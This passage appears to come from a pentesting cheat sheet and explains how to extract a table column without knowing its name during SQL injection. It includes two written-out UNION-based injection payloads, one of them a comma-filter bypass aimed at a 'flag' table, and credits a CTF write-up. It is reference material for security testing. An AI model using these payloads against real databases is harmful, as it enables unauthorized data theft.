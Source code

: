It’s possible to access the third column of a table without using its name using a query like the following: SELECT F.3 FROM (SELECT 1, 2, 3 UNION SELECT * FROM demo)F;, so in an sqlinjection this would looks like:

# This is an example with 3 columns that will extract the column number 3
-1 UNION SELECT 0, 0, 0, F.3 FROM (SELECT 1, 2, 3 UNION SELECT * FROM demo)F;

Or using a comma bypass:

# In this case, it's extracting the third value from a 4 values table and returning 3 values in the "union select"
-1 union select * from (select 1)a join (select 2)b join (select F.3 from (select * from (select 1)q join (select 2)w join (select 3)e join (select 4)r union select * from flag limit 1 offset 5)F)c

This trick was taken from https://secgroup.github.io/2017/01/03/33c3ctf-writeup-shia/
